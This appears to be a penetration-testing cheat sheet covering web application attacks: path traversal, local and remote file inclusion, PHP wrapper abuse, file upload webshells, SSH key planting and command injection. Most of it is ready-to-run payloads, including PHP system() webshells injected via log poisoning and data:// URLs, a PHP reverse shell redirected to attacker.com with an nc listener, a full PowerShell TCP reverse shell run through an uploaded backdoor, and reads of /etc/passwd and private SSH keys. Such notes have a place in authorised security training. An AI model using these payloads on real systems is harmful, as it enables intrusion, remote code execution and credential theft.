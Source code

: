 
# Common Attacks towards Web Applications

## Directory Traversal

* Test if path traversal is possible
* Windows `C:\Windows\System32\drivers\etc\hosts`
* Linux `/etc/passwd`

Curl

* --path-as-is for ../
* Windows LFI without C:

```bash
curl --path-as-is http://target-URL/public/../../../../../../../../WINDOWS/System32/drivers/etc/hosts
curl --path-as-is http://target-URL/public/../../../../../../../../etc/passwd
```

Intruder Payload

```bash
# single url %2e%2e%2f 
# double url %252e%252e%252f 
res=" "; pattern="../"; for i in {1..10}; do res=$res$pattern; echo $res; done
```

On Windows system, try to read `C:/WINDOWS/System32/drivers/etc/hosts` file first to test for path traversal. Next try to read files of the identified web server and it's configuration file or logs. Try to find sensitive information like username or passwords.

In Linux systems, a standard vector for directory traversal is to list the users of the system by displaying the contents of `/etc/passwd`, check for private keys in their home directory `/home/user/.ssh/id_rsa`, and use them to access the system via SSH.

## Local File Inclusion

The big difference between path traversal and file inclusion (LI) is that LI allows to **execute files** where path traversal only allows to read them. The **code execution** is major attack vector.

Linux Web Servers

* PATH `/var/www/html/login.html.`
* URLs `https://example.com/login.html`
* POIs `https://example.com/cms/login.php?page=en.html`
  * subfolder cms
  * PHP language
  * file inclusion

Windows Web Server

* [LFI](https://gist.github.com/korrosivesec/a339e376bae22fcfb7f858426094661e)
* [IIS Log Management](https://learn.microsoft.com/en-us/iis/manage/provisioning-and-managing-iis/managing-iis-log-file-storage)
* ISS Conf `\inetpub\wwwroot\web.config`
* ISS Logs `\inetpub\logs\LogFiles\W3SVC1\u_ex[YYMMDD].log`
* Apache Conf `/xampp/apache/conf/httpd.conf`
* Apache Logs `/xampp/apache/logs/access.log`
* Apache Logs `/xampp/apache/logs/error.log`
* Sensitive information: user, passwords

The goal of an LFI exploit is to load/include poisoned files with a interpreter to execute code. Log file poisoning allows the attacker to put malicious code written in e.g. PHP/python/ASP/JSP/perl/JS into a log file which gets executed by attacked website. The basic attack vector is the `system` call to execute arbitrary code using URL or POST data payload. (RCE)

More info about webshell can be found here `kali ll /usr/share/webshells/php/`

Example:

* Navigate to `https://example.com/index.php?page=admin.php`
* Include local log file `../../xampp/apache/logs/access.log`
* Identify that controlled User Agent gets logged `Mozilla/5.0`
* Trigger log poisoning with curl -A "user-agent-name-here" e.g. `<?php echo system($_GET['cmd']); ?>`
* Include log file to execute cmd `../../xampp/apache/logs/access.log?cmd=id`

```bash
curl -i -k https://example.com/index.php?page=../../../../../../../../../xampp/apache/logs/access.log
# code allows to run a simple command supplied by the URL (encoding)
curl -i -A "Mozilla/5.2 <?php echo system($_GET['cmd']); ?>"
curl -i -k https://example.com/index.php?page=../../../../../../../../../xampp/apache/logs/access.log&cmd=ps
```

## Remote File Inclusion

* Requires allow_url_include `https://www.php.net/manual/en/filesystem.configuration.php`
* Requires an interpretet language
* See `/usr/share/webshells`

Remote file inclusion (RFI) works like that LFI but has security misconfiguration as precondition. Given the PHP setting `allow_url_include` is active, an attacker can host the include file remotely. It can use a HTTP server to do so and wait for an reverse shell

Example:

* Navigate to `/usr/share/webshells`
* Setup HTTP server `python -m simple.http 80`
* Setup TCP listener (NC reverse shell)
* Navigate to `https://example.com/index.php?page=admin.php`
* Include the remote file `page=http://attacker.com/php-reverse-shell.php`
* Use newly spawned reverse shell on TCP listener

```bash
cp /usr/share/webshells/php/php-reverse-shell.php ~/
sed -i "s/$ip = '127.0.0.1'/$ip = 'attacker.com'/g" php-reverse-shell.php
sed -i "s/$port = 1234/$port = 4444/g" php-reverse-shell.php
python -m simple.http 80
nc -nlvp 4444
curl -k -i https://example.com/index.php?page=http://attacker.com/php-reverse-shell.php
```

## Read Filter and Data Execution

* Requires allow_url_include `https://www.php.net/manual/en/filesystem.configuration.php`
* PHP Read File Filter `https://www.php.net/manual/en/wrappers.php.php`
* PHP Data Execution `https://www.php.net/manual/en/wrappers.data.php`

```bash
# Read File content in Base64 format with php://filter
curl http://example.com/index.php?page=php://filter/resource=admin.php
curl http://example.com/index.php?page=php://filter/convert.base64-encode/resource=admin.php
# Execute Cmd with php://data from
curl "http://example.com/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
curl "http://example.com/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```

## File Upload Vulnerability

* Find file uploads in the app (images, texts, doc)
* Identify programming language
* Try to upload a webshell `/usr/share/webshells`
* Identify underlying OS
* Setup a TCP listener `nc -nlvp 4444`
* Prepare reverse shell e.g. PS `https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3`
* Use the installed webshell and `powershell -enc` to run a base64 encoded reverse shell exploit

```powershell
# Install a PHP webshell
cp /usr/share/webshells/php/simple-backdoor.php ~/simple-backdoor.Php
curl -i -F "fileToUpload=@./simple-backdoor.Php" http://target.com/meteor/upload.php
curl -i http://target.com/meteor/uploads/simple-backdoor.Php?cmd=whoami
# Prepare PS reverse shell
pwsh
$Shell = '$client = New-Object System.Net.Sockets.TCPClient("IP",PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
# Encode utf-8 and convert to base 64 
$Base64Shell = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($Shell))
# Exploit
nc -nlvp 4444
curl http://target.com/meteor/uploads/simple-backdoor.Php?cmd=powershell%20-enc%20$Base64Shell
...

## File Upload with Path Traversal (but no execution)

* A Linux standard vector is to use SSH key for access
* Combine Path Traversal and File Upload vulnerability
* Upload `authorized_keys` blindly to `/root/.ssh` folder

```bash
# Generate new SSH key
ssh-keygen
cat new-key.pub > authorized_keys
# POST authorized_keys via unprotected upload form and exploit path traversal in filename to override the file into root folder
curl -i -F 'myFile=@./authorized_keys;filename=../../../../../../../../../../root/.ssh/authorized_keys' http://target.com/upload
ssh -i new-key root@target.com
```

## Command Inject

Test if we run on 'cmd' or 'powershell'

```shell
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell 
```

